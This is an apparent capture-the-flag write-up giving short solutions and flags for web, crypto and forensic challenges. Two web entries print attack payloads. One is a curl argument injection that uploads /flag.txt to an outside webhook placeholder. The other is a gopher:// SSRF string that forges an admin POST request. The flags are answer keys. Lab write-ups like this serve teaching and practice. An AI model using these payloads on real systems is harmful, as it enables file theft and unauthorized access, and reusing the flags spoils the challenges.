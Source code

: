 # Testing Website

**Category** : Web

`-F password=@/flag.txt http://yourwebhook/`

`ARA5{cuRl_4rGuM3Nt_1nJ3ct10n}`

# Into to Curl

**Category** : Web

`gopher://flag:80/_POST%2520/%2520HTTP/1.1%250D%250AHost:flag:80%250D%250AContent-Type:application/x-www-form-urlencoded%250D%250AContent-Length:13%250D%250A%250D%250Ais_admin=true`

`ARA5{aw3s0me!_h0w_d1d_y0u_do_th4t??}`

# roti3

**Category** : Crypto

`NEN5{4e!0_Y1x3f_13_c!rp35_0s_Oe34q}`

rot cipher:
`ARA5{4r!0_L1k3s_13_p!ec35_0f_Br34d}`

# Arlo

**Category** : Forensic

https://aperisolve.com/01a2b717e414902514fe4ae7e4b5626d

`ARA5{W0uld_y0u_!0s3_n4hHh_!'d_W1n}`
